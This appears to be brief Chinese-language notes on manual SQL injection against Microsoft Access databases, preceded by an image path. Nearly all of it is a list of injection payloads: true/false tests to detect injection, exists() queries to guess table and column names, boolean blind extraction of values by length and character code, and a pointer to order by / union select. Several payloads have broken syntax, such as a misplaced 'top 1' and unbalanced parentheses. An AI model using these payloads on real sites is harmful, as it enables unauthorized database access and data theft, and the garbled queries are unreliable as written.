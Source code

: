 - 判断注入
  - and 1=1
  - and 1=2

**access没有数据库名，所以从猜测表开始**
- and exists(select * from table_names)

**得到表名之后就要开始猜解列名**
- and exists(select column_name from table_names)


**得到列名之后就需要猜解具体的内容**
- and ( select * from top 1 len(column_name) from table_name ) >1

**可以用二分法去猜解值,脚本爆破**
- and ( select asc(mid(column_name, i, 1))) from table_name ) > 5

**或者可以order by 猜解字段然后 union select得到相关信息**
